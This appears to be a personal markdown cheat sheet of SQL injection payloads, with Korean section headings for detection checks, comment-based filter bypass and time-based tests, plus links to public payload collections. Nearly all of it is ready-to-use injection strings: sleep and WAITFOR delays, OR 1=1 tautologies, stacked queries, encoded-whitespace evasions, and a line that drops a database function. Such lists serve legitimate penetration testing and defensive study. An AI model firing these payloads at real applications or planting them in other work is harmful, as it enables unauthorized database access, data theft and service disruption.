 # SQLInjection

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```

```
%2c(select%20*%20from%20(select(sleep(10)))a)
%2c(select*from(select(sleep(20)))a)
(SELECT * FROM (SELECT(SLEEP(15)))a)
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
AND (SELECT 8327 FROM (SELECT(SLEEP(5)))yrDl)
' AND (SELECT -9789) OR 6323=6323# FROM (SELECT(SLEEP(5)))Xeps) AND 'HlBp'='HlBp
' AND SLEEP(5) AND 'wRIg' LIKE 'wRIg
%20AND%20SLEEP(15)%23
';SELECT 1;SELECT pg_sleep\(30\);--'
AND SLEEP(15)
```

```
https://github.com/payloadbox/sql-injection-payload-list
```
SqIinjection 테스트 코드 

탐지 점검
```
&apos;
'
%%2727
%25%27
```

`
select ‘abc’ || ‘def’;
`

```
/**/and/**/1=1/**/--
(1)and(1)=(1)
%09and%091=1%09--
%0Dand%0D1=1%0D--
%0Cand%0C1=1%0C--
%0Band%0B1=1%0B--
%0Aand%0A1=1%0A--
%A0and%A01=1%A0--
```



```
or 1=1 -- 
' or 1=1 -- 
" or 1=1 -- 
1 and 1=2 -- 
```

```
'//AND//'1%'='0 
```

주석으로 우회 
```
'/**/AND/**/'1%'='0
```

시간 기반 테스트 
```
'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

```
';WAITFOR DELAY '0:0:5'--
```

테스트
```
'||(SELECT 0x615a636e FROM DUAL WHERE 7192=7192 AND (SELECT 4865 FROM (SELECT(SLEEP(5)))VDbe))||'
```

```
`=`1` AND ELT(1337=1337 AND ELT(1337=1337,SLEEP(5*5)))|[1
```

OR x=y     

HAVING 1=0

AND 1=0


AND 7=9 AND (5=5
 AND 7=9 AND ('5=5
 AND 7=7 AND 'Z'='Y
 AND 7=7 AND ('Z'='Y
 WHERE 1=1 AND 1=0

AND SLEEP(15)
+ SLEEP(10) + '
' AnD SLEEP(15) ANd '1
(SELECT * FROM (SELECT(SLEEP(15)))ecMj)
+benchmark(3200,SHA1(1))+'
ORDER BY SLEEP(15)
'&&SLEEP(15)&&'1
0' AND SLEEP(15)
';WAITFOR DELAY '0:0:30'--
'+WAITFOR+DELAY+'0:0:10'--+-"

'+(select*from(select(sleep(7*7)))a)+'
 OR 3=3 AND ('W' LIKE 'Y
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
IF(7=4) SELECT 7 ELSE DROP FUNCTION xcjl--
%' AND 1=8 AND '%'='
